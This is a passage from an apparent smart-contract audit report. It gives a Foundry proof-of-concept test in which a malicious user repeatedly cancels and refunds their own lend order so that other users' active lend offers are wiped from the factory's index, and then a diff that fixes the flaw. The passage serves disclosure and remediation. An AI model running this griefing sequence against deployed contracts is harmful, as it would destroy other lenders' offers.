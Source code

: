 ```js
        assert(DLOFactoryContract.allActiveLendOrders(3) == lendOrderAddress3);
        assert(DLOFactoryContract.allActiveLendOrders(4) == lendOrderAddress4);
        assert(DLOFactoryContract.allActiveLendOrders(5) == lendOrderAddress5);
        assert(DLOFactoryContract.allActiveLendOrders(6) == lendOrderAddress6);

        // malicious user repeatedly cancel lend order index 6 and call add funds on it
        uint256 activeLendOrderCountBefore = DLOFactoryContract.activeOrdersCount();
        AEROContract.approve(lendOrderAddress6, 100e18);
        for (uint256 i; i < 5; ++i) {
            DLOImplementation(lendOrderAddress6).cancelOffer();
            DLOImplementation(lendOrderAddress6).addFunds(1e18);
        }
        uint256 activeLendOrderCountAfter = DLOFactoryContract.activeOrdersCount();

        // check activeOrdersCount
        assert(activeLendOrderCountBefore > activeLendOrderCountAfter);
        // activeLendOrderBefore is 7 (2 from setUp, 3 from user and 2 from malicious user)
        console.log("activeLendOrderCountBefore: ", activeLendOrderCountBefore);
        console.log("activeLendOrderCountAfter: ", activeLendOrderCountAfter);
        // malicious user index is 5 and 6
        // lend offer of index 5 would be swapped to index 6, and other would be set to 0
        assert(DLOFactoryContract.LendOrderIndex(lendOrderAddress2) == 0);
        assert(DLOFactoryContract.LendOrderIndex(lendOrderAddress3) == 0);
        assert(DLOFactoryContract.LendOrderIndex(lendOrderAddress4) == 0);
        assert(DLOFactoryContract.LendOrderIndex(lendOrderAddress5) == 6);
        assert(DLOFactoryContract.LendOrderIndex(lendOrderAddress6) == 0);

        assert(DLOFactoryContract.allActiveLendOrders(2) == address(0));
        assert(DLOFactoryContract.allActiveLendOrders(3) == address(0));
        assert(DLOFactoryContract.allActiveLendOrders(4) == address(0));
        assert(DLOFactoryContract.allActiveLendOrders(5) == address(0));
        assert(DLOFactoryContract.allActiveLendOrders(6) == lendOrderAddress5);
    }
```

then run `forge test --mt test_PoC_griefingByDeletingOthersLendOffer` and the test would pass.

### Mitigation

1. add check for `addFunds` to check if the lend offer still active if called directly by owner.
2. also add check to only cancel the offer if its active.

```diff
    function addFunds(uint amount) public nonReentrant {
        require(
            msg.sender == lendInformation.owner ||
                IAggregator(aggregatorContract).isSenderALoan(msg.sender),
            "Only owner or loan"
        );
+       if (msg.sender == lendInformation.owner) {
+           require(isActive,  "Offer is not active");
+       }
        SafeERC20.safeTransferFrom(
            IERC20(lendInformation.principle),
            msg.sender,
            address(this),
            amount
        );
        lendInformation.availableAmount += amount;
        IDLOFactory(factoryContract).emitUpdate(address(this));
    }
```
